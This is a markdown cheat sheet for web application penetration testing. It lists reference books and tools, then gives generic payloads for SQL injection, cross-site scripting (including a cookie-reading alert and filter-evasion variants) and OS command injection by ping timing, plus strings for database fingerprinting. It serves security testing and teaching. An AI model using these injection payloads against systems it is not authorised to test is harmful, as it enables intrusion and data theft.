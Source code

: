 # Web Application Cheat Sheet
## Top Resources
* [The Web Application Hacker’s Handbook](https://repo.zenk-security.com/Magazine%20E-book/The%20web%20application%20hackers%20handbook%20finding%20and%20exploiting%20security%20flaws%20-ed2%202011.pdf)
* [OWASP Top 10 – 2017](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [PortSwigger - Vulnerability Descriptions & Remediations](https://portswigger.net/kb/issues)

## Tools
* [URL Encoder/Decoder](https://meyerweb.com/eric/tools/dencoder/)
* [CyberChef](https://gchq.github.io/CyberChef/)
* [Burp - Turbo Intruder](https://portswigger.net/blog/turbo-intruder-embracing-the-billion-request-attack)

## All Purpose Payloads
**SQL Injection**
* `'`
* `%27`
* ` OR 1=1-- `
* `' OR 1=1#`
* `' OR 'a'='a`
* `foo', 1, 1, 1)-- `
* `' union select null, null, null, null;-- `

**XSS**
* `"><script>alert(document.cookie)</script>`
* `"><script>alert(1)</script>`
* `" onfocus="alert(1)`
* `'; alert(1); var foo='`
* `javascript:alert(1);`
* `<script><script>alert(1)</script>`
* `<scr<script>ipt>alert(1)</script>`
* `<scr<object>ipt>alert(1)</script>`

**OS Command Injection**
* `|| ping -i 30 127.0.0.1 ; x || ping -n 30 127.0.0.1 &`
* `%7C%7C%20ping%20-i%2030%20127.0.0.1%20%3B%20x%20%7C%7C%20ping%20-n%2030%20127.0.0.1%20%26`

## SQL Injection
**Database Fingerprinting ('services')**
* Oracle
	- `'serv'||'ices'`
* MS-SQL
	- `'serv'+'ices'`
* MySQL
	- `'serv' 'ices'` (note the space)
